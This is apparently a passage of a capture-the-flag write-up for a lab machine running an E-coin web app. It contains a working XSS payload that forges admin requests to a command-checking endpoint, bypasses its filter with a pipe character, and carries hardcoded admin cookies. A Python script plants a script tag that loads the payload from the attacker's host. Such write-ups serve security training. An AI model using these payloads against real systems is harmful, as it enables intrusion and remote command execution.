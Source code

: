 With this, all the information is present to attempt remote code execution (RCE). This requires sending an XSS payload as a user that will send a command to `http://10.10.10.154/admin/backdoorchecker.php` as admin. Before a full reverse shell, a test payload to is needed:

**NOTE:** This assumes that the admin user checking on E-coin transfer requests is doing so from an IP on localhost (::1)

This requires an XSS payload (called `xss.js`) that will be run by the `admin` user:

- `backdoorchecker.php` checks for `&` and `$(` but **not** `|`
- Using `ping.exe` here for RCE connectivity test

```javascript
var xhr = new XMLHttpRequest();
xhr.open('POST', 'http://localhost/admin/backdoorchecker.php', true);
xhr.withCredentials = true;
xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
xhr.setRequestHeader('Cookie', 'id=1; username=YWRtaW4%3D; password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D');
xhr.send('cmd=dir|ping.exe -n 5 10.10.14.20');
```

It also requires the submission of an E-coin transfer as a normal user to trigger the XSS. This can be automated with Python3:

```python
import sys
import requests

TARGET = 'http://10.10.10.154/'

if len(sys.argv) != 5:
  print(f'usage: python3 {sys.argv[0]} <attacker-ip> <username> <password> <XSS_file>')
  exit(1)

# login user:
s = requests.session()
data = {
  'username': sys.argv[2],
  'password': sys.argv[3],
}
print(f'[*] logging in user "{sys.argv[2]}" with password "{sys.argv[3]}" ...')
r = s.post(TARGET + '/login.php', data=data)
if r.status_code != requests.codes.ok:
  print('[-] error')
  exit(1)
print('[+] user cookies: ' + str(s.cookies.get_dict()))

# send payload request
print(f'[*] sending XSS payload: "http://{sys.argv[1]}/{sys.argv[4]}" ...')
data = {
  'fromId': s.cookies.get_dict()['id'],
  'toId': s.cookies.get_dict()['id'],
  'amount': '0',
  'comment': f'<script src="http://{sys.argv[1]}/{sys.argv[4]}"></script>',
}
r = s.post(TARGET + '/user/transfer.php', data=data)
if r.status_code != requests.codes.ok:
  print('[-] error')
  exit(1)
print('[+] DONE')
```
